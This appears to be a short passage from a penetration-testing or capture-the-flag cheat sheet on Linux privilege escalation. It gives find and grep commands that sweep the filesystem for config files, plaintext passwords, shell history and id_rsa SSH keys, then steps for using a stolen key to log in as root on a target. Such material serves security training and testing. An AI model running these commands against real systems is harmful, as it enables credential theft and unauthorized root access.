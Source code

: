 ### Search Stored Password From Config files

Try to read config files of available tools of system or check history for finding exposed password and ssh keys.
```sh
find / -type f -name "config" 2>/dev/null # This command will search all config file.
find / -type f -exec grep -il "password" {} 2>/dev/null \; # This command will search every file containing "password" word.
find / -type f -name "config" -exec grep -il "password" {} 2>/dev/null \; # This command do the both things in onmline.
find / -name id_rsa 2> /dev/null # Search ssh keys.
history | grep -i "password"
```

### Escalate Priviledge With ssh Key
If you find any exposed ssh key, try to exploit it for escalation.
```sh
1. Copy and save the key in your own linux terminal with name id_rsa.
2. chmod 400 id_rsa > Change permission.
3. ssh -i id_rsa root@<target-ip> > Try access the root shell of target.
```
